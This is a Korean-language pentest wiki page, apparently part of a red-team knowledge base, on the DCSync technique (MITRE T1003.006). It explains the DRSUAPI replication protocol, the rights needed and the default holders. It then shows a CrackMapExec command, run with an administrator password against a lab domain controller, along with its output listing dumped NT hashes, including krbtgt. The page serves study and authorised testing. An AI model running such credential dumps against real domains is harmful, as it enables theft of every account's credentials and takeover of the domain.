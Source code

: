 ```yaml
---
description: 'ID: T1003.006 - OS Credential Dumping: DCSync'
---
```


# DCSync

## 개념

도메인 컨트롤러는 윈도우 액티브 디렉토리 도메인 내 사용자 인증 및 권한을 관리하는 중요한 서버다. 너무 중요하기 때문에 대부분의 윈도우 액티브 디렉토리 환경들은 안정성을 위해 도메인 컨트롤러 서버를 두 대 이상 운영하고 있다. 도메인 컨트롤러들은 각자의 액티브 디렉토리 오브젝트 관련 데이터들을 가지고 있고, 사용자 계정등의 경우에는 NTDS.dit 파일들을 각 서버의 파일시스템에 저장하고 있다. 도메인 컨트롤러들은 각자의 도메인 데이터들을 서로 싱크하고 맞추기 위해 MS-DRSR (Directory Replication Service Remote Protocol) 이라는 프로토콜을 사용한다. 그리고 MS-DRSR 프로토콜은 DRSUAPI (Directory Resplication Service) 라는 RPC 인터페이스를 통해 액티브 디렉토리에 적용됐다.

MS-DRSR과 DRSUAPI를 악용할 수 있는 방법은 2015년 8월 Mimikatz 툴에 "DCSync" 라는 기능이 추가되면서 세상에 본격적으로 알려지게 된다. 이 DCSync 라는 기능은 도메인 장악 권한 (도메인 관리자, 엔터프라이즈 관리자, 등)을 가진 상태에서 실행하게 되면 도메인 컨트롤러 머신 계정을 impersonate 한 뒤, DRSUAPI의 `GetNCChanges/DRSGetNCChanges` 함수를 이용해 도메인 내 모든 유저 계정의 계정 정보 (NTDS.dit 파일안의 유저 이름 + NT Hash) 를 받아온다.

Mimikatz가 선보였던 이 "DCSync" 라는 기능은 추후 다른 툴들에게도 적용되어, 오늘날 "DRSUAPI 혹은 MS-DRSR을 이용해 도메인 컨트롤러로부터 도메인 유저 계정 정보를 받아오는" 뜻을 갖게 되었다. 여기서 중요한 점은, DCSync는 공격 방법이나, 익스플로잇이 아니라는 것이다. DCSync는 마이크로소프트사가 적용한 DRSUAPI를 의도한대로 정상적으로 사용할 뿐인 기능이다.



## 사전 조건

내부망 모의해킹 시 DCSync를 사용하려면 현재 장악한 유저 계정이나 머신 계정이 다음과 같은 권한을 도메인 레벨에 가지고 있어야한다. 이 권한들은 모두 ExtendedRights에 해당하는 권한들이다.

1. `DS-Replication-Get-Changes`: Replicating Directory Changes
2. `DS-Replication-Get-Changes-All`: Replicating Directory Changes All
3. 혹은, `GenericAll`

모두 디렉토리의 변경점을 복제하고 싱크하기 위한 권한들이다. 위 권한들을 디폴트로 가지고 있는 액티브 디렉토리 오브젝트들은 다음과 같다.

1. Domain Admins@domain.com
2. Enterprise Admins@domain.com
3. Domain Controllers@domain.com
4. Administrators@domain.com

위 기본적인 오브젝트들이 아니라 `DS-Replication-Get-Changes/All` 권한을 가지고 있는 특정 오브젝트가 있다면, 블러드하운드에서는 아래와 같이 보일 것이다. 대부분 `AllExtendedRights`, `DCSync`, 혹은 `GenericAll` 권한들을 도메인 오브젝트에 가지고 있는 형태로 보인다.&#x20;

<figure><img src="../.gitbook/assets/dcsyncers.PNG" alt=""><figcaption></figcaption></figure>

## 실습

DCSync 권한을 가진 계정을 장악했다면, CrackMapExec, Mimikatz, Invoke-DCSync, SharpKatz 등의 다양한 툴을 이용해 DCSync 기능을 실행한다.

실제 내부망 모의해킹 시 도메인 장악을 끝내고 마지막으로 DCSync를 실행하며 도메인 내 수만명의 계정 정보가 쭉 올라가고 있는 걸 보는 것 만큼 기분 좋은 것이 없다.

```
└─# cme smb 192.168.40.150 -u administrator -p 'Password123!' --ntds                                                                                  
SMB         192.168.40.150  445    DC01             [*] Windows Server 2019 Standard 17763 x64 (name:DC01) (domain:choi.local) (signing:False) (SMBv1:
True)                                                                                                                                                 
SMB         192.168.40.150  445    DC01             [+] choi.local\administrator:Password123! (Pwn3d!)                                         
SMB         192.168.40.150  445    DC01             [+] Dumping the NTDS, this could take a while so go grab a redbull...                    
SMB         192.168.40.150  445    DC01             Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::
SMB         192.168.40.150  445    DC01             Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::          
SMB         192.168.40.150  445    DC01             krbtgt:502:aad3b435b51404eeaad3b435b51404ee:a8f31b642e60b362cc17588df4c5b1e2:::     
SMB         192.168.40.150  445    DC01             choi.local\low:1601:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::    
SMB         192.168.40.150  445    DC01             sqladmin:1603:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::             
SMB         192.168.40.150  445    DC01             choi.local\sqldude:1604:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::
SMB         192.168.40.150  445    DC01             choi.local\linuxadmin:1605:aad3b435b51404eeaad3b435b51404ee:f7381d09866c0d678b836bf38b37122a:::   
SMB         192.168.40.150  445    DC01             choi.local\edward:1608:aad3b435b51404eeaad3b435b51404ee:2d769326bbe2798417b8fb6091f3857e:::
SMB         192.168.40.150  445    DC01             choi.local\da:1618:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::

[ . . . ]
```

## 실습 - 와이어샤크&#x20;

DCERPC 답게, 먼저 DCSync를 실행하면 Bind 과정을 거져 DRSUAPI 의 RPC 인터페이스들을 본격적으로 찾기 시작한다.&#x20;

<figure><img src="../.gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>

그 뒤, `DsGetNCChanges` 로 도메인 유저 계정 정보를 받아온 뒤, `DsCrackNames` 로 받아온 데이터를 기본적인 문자열로 다시 포멧한다. 이 과정을 모든 도메인 유저 계정 정보를 받아올 때 까지 계속해서 반복한다.&#x20;

<figure><img src="../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

### 레퍼런스&#x20;

* https://wiki.samba.org/index.php/DRSUAPI
* https://adsecurity.org/?p=1729
* https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc772673(v=ws.10)
* https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc772673(v=ws.10)#ds-replication-get-changes-all
* https://winprotocoldoc.blob.core.windows.net/productionwindowsarchives/MS-DRSR/%5bMS-DRSR%5d.pdf
* https://learn.microsoft.com/en-us/openspecs/windows\_protocols/ms-drsr/f977faaa-673e-4f66-b9bf-48c640241d47
* https://learn.microsoft.com/en-us/openspecs/windows\_protocols/ms-drsr/58f33216-d9f1-43bf-a183-87e3c899c410



